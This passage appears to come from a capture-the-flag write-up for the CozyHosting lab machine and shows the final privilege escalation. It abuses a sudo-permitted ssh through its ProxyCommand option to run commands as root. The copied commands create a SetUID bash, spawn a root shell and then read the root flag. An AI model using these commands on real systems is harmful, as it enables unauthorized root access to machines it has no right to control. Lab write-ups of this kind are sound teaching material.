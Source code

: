 ### Execution

There’s a GTFObins page for `ssh`, but it’s more fun to look at the [man page](https://man.openbsd.org/ssh_config#ProxyCommand). SSH has an option called `ProxyCommand`. I actually use this in real life to connect to SSH servers through a socks proxy. I have an SSH config file that looks like this:

![image-20240227131623646](https://0xdf.gitlab.io/img/image-20240227131623646.png)

When I run `ssh [hostname]`, it runs `nc` connecting to `localhost:1080` as a SOCKS5 ( `-X 5`) proxy, and then my SSH connection can travel over that proxy.

The `ProxyCommand` is run on the client before making the connection, so I can abuse that to do arbitrary things as the user who is running the `ssh` command. In this case, that’s root because of `sudo`. I’ll show touching a file:

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand='touch /tmp/0xdf' x
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
josh@cozyhosting:~$ ls -l /tmp/0xdf
-rw-r--r-- 1 root root 0 Feb 27 18:19 /tmp/0xdf

```

It works. I can use this to make a SetUID `bash`:

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand='cp /bin/bash /tmp/0xdf' localhost
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
josh@cozyhosting:~$ sudo ssh -o ProxyCommand='chmod 6777 /tmp/0xdf' localhost
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
josh@cozyhosting:~$ ls -l /tmp/0xdf
-rwsrwsrwx 1 root root 1396520 Feb 27 18:20 /tmp/0xdf

```

Now running it (with `-p` to not drop privs) gives a root shell:

```
josh@cozyhosting:~$ /tmp/0xdf -p
0xdf-5.1# id
uid=1003(josh) gid=1003(josh) euid=0(root) egid=0(root) groups=0(root),1003(josh)

```

GTFObins gives a shorter path, using redirection to get the shell immediately from the `ssh` process:

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)

```

Either way, I can grab the flag:

```
0xdf-5.1# cat /root/root.txt
01ebd55a************************

```





